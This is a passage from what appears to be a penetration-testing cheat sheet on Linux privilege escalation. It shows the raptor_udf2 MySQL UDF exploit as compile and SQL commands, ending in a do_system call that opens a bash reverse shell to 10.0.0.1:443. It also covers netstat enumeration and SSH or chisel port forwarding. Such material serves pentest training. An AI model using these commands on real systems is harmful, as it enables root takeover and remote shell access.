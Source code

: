 ### Examples of processes to look for

The idea here is to hijack a process running as root.

+ **mysql**

We can use [MySQL UDF Dynamic Library](https://www.exploit-db.com/exploits/1518) to get root on the system.

```console
#gcc -g -c raptor_udf2.c
#gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
mysql -u root -p
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select do_system('bash -i >& /dev/tcp/10.0.0.1/443 0>&1');
```

Before running the last command, you will need to set up a Netcat listener on your attacking machine.

## Network Enumeration

**Is there an interesting service listening locally? Which ports are open?**

```console
#ifconfig
#netstat -ano
#netstat -antp
```

Using the Netstat command, we can see all the listening ports. We can also determine if other users are connected to the target by observing the established connections list.


<div class="panel panel-info">
      <div class="panel-heading">
        <h3 class="panel-title">Tip:</h3>
      </div>
      <div class="panel-body">
If you need to attack a local service (listening for connections from the localhost) and the tools you need are not installed on the target, you can do a local port forwarding to your machine.

   </div>
    </div>

### Local port forwarding techniques

```console
#ssh -L 4000:127.0.0.1:3306 root@kali
```

I also recommend using [chisel](https://github.com/jpillora/chisel) to do local port forwarding.
